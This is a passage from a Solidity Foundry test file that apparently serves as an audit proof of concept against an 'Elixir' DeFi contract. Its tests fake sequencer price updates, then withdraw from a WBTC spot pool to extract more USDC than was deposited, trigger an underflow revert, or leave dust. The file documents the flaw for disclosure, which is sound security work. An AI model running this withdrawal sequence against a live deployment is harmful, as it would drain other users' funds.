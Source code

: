 ```
    manager.depositSpot(1, spotTokens[0], spotTokens[1], amountBTC, amountUSDC, amountUSDC, address(this));
  }

  function testElixirMEV() public {
    console.log("Step 2: BTC falling 10%");
    updateBTCPrice(btcPrice * 10 / 11);
    
    console.log("Step 3: Withdraw from WBTC spot pool returns more USDC than deposited");
    manager.withdrawSpot(1, spotTokens, amountBTC / 2, 0);
    
    uint256 totalUSDC =
          manager.getUserActiveAmount(1, address(USDC), address(this)) + 
          manager.getUserPendingAmount(1, address(USDC), address(this));
    emit log_named_decimal_uint("USDC profit", totalUSDC - amountUSDC, USDC.decimals());
  }

  function testElixirRevert() public {
    console.log("Step 2: BTC rising 10%");
    updateBTCPrice(btcPrice * 11 / 10);
    
    console.log("Step 3: Withdraw from WBTC spot pool will revert because of underflow");
    vm.expectRevert();
    manager.withdrawSpot(1, spotTokens, amountBTC, 0);
  }

  function testElixirDust() public {
    console.log("Step 2: BTC falling 10%");
    updateBTCPrice(btcPrice * 10 / 11);
    
    console.log("Step 3: Withdraw from WBTC spot pool will leave dust amount");
    manager.withdrawSpot(1, spotTokens, amountBTC * 10 / 11, 0);
    emit log_named_decimal_uint("BTC dust", manager.getUserActiveAmount(1, address(BTC), address(this)), BTC.decimals());
  }

  function updateBTCPrice(uint256 newPrice) internal {
    vm.startPrank(manager.endpoint().getSequencer());
    
    updateInfo.priceX18 = int128(int256(newPrice)) * 11 / 10;
    updateInfo.productId = productId_BTC;
    Endpoint.TransactionType tx_type = Endpoint.TransactionType.UpdatePrice;
    
    txList.push(abi.encodePacked(tx_type, abi.encode(updateInfo)));    
    manager.endpoint().submitTransactions(txList);

    vm.stopPrank();
  }
}

```

